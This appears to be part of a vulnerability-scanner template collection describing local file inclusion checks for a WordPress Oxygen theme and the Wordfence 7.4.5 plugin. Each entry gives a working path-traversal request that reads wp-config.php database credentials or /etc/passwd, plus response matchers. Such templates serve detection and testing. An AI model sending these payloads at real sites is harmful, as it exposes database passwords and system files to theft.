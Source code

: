 - WordPress Oxygen-Theme has a local file inclusion vulnerability via the 'file' parameter of 'download.php'.
- severity - high
- tags - wordpress,wp-theme,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/oxygen-theme/download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Wordfence 7.4.5 - Local File Inclusion

## Description

- WordPress Wordfence 7.4.5 is vulnerable to local file inclusion.
- severity - high
- tags - wordpress,wp-plugin,lfi,wordfence,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wordfence/lib/wordfenceClass.php?file=/../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
